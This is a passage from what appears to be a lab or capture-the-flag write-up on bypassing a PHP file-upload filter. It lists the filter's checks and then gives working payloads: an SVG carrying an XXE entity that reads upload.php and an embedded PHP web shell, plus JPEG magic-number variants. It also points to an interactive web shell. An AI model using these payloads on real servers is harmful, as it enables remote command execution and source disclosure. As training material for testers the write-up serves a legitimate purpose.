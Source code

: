 ```php
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```
From here we get interesting information:
* Upload directory: `./user_feedback_submissions/`;
* Files are renamed as: `currentdate_filename` (an example of a file uploaded the 02 March 2022 is: 220302_grapefruit.jpg);
* Blacklist validation: any file that has `.php`, `.phps`, `.phtml` extension are not allowed;
* Backend server whitelist validation `^.+\.[a-z]{2,3}g$`: any file named with `[filename by one or more char].[an extension with 2 or 3 letters between 'a' and 'z' (lowercase) and 'g' char at the end]` (Note: in `{2,3}` the final `g` is not counted);
* MIME-Type test: the magic number of the file must be related to an image format.

Now we have all the information useful for uploading our PHP shell. By Burpsuite, send an HTTP POST request for uploading files by uploading a file named `shell.phar.svg` with the following content:
```php
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=upload.php">]>
<svg><result>&ac;</result></svg>
<?php system($_REQUEST['cmd']); ?>
```
Then, visit `http://SERVER_IP:PORT/contact/user_feedback_submissions/220303_shell.phar.svg?cmd=id` and look if the `id` command is executed.

You can do the same also by injecting PHP code in a file renamed `shell.phar.jpg` but you need to insert the right magic number for JPG format (`ÿØÿà`), for example:
```php
ÿØÿà<...and all the data of the image...>
<SNIP>
<?php system($_REQUEST['cmd']); ?>
```
or simply:
```php
ÿØÿà
<?php system($_REQUEST['cmd']); ?>
```
Remember: if this last case does not work, try to upload an entire image and get the 200 response, paste at the end of all the data the PHP code and then delete all the image data except the magic number.

Now we can use our web shell. Remember you can also upload the interactive web shell https://github.com/Arrexel/phpbash.